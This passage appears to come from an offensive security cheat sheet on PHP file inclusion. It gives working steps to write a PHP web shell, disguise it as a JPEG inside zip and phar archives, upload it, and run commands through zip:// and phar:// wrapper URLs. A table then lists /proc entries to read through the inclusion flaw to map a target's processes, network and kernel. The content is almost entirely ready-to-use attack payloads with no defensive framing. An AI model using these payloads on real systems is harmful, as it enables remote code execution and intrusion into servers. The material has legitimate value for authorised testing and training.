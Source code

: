 ```zsh
echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

Upload file: `shell.jpg`

Run payload:

```url
http://R_IP_ADDRESS/?page=zip://./DIR/shell.jpg%23shell.php&cmd=id
```

#### Phar Upload

PHP payload:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_REQUEST["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
?>
```

Build payload:

```zsh
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Upload file: `shell.jpg`

Run payload:

```url
http://R_IP_ADDRESS/?page=phar://./DIR/shell.jpg%2Fshell.txt&cmd=id
```

## Interesting proc entries to include

|Directory|Description|
|:--------|:----------|
|/proc/sched_debug|This is usually enabled on newer systems, such as RHEL 6.  It provides information as to what process is running on which cpu.  This can be handy to get a list of processes and their PID number.|
|/proc/mounts|Provides a list of mounted file systems.  Can be used to determine where other interesting files might be located|
|/proc/net/arp|Shows the ARP table.  This is one way to find out IP addresses for other internal servers.|
|/proc/net/route|Shows the routing table information.|
|/proc/net/tcp and /proc/net/udp|Provides a list of active connections.  Can be used to determine what ports are listening on the server|
|/proc/net/fib_trie|This is used for route caching.  This can also be used to determine local IPs, as well as gain a better understanding of the target’s networking structure|
|/proc/version|Shows the kernel version.  This can be used to help determine the OS running and the last time it’s been fully updated.|
